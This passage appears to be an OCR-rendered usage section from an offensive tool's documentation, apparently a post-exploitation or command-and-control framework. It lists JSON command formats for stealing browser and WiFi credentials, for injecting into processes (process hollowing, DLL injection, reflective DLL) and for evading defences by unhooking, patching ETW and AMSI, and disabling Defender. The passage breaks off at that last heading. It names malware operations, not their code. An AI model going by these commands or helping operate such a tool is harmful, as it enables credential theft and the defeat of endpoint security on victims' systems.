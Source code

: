 ### Browser Credentials
```bash
# Browser credentials
{
  "action": "browser_credentials",
  "target_user": "user@domain.com"
}

# WiFi credentials
{
  "action": "wifi_credentials",
  "target_user": "user@domain.com"
}
```

### Process Operations
```bash
# Process hollowing
{
  "action": "process_hollowing",
  "target_process": "notepad.exe"
}

# DLL injection
{
  "action": "dll_injection",
  "target_process": "notepad.exe"
}

# Process injection
{
  "action": "process_injection",
  "target_process": "notepad.exe"
}

# Reflective DLL
{
  "action": "reflective_dll",
  "target_process": "notepad.exe"
}
```

### Evasion Techniques
```bash
# Unhook
{
  "action": "unhook",
  "target_process": "powershell.exe"
}

# Patch ETW
{
  "action": "patch_etw",
  "target_process": "powershell.exe"
}

# Patch AMSI
{
  "action": "patch_amsi",
  "target_process": "powershell.exe"
}

# Disable Defender
```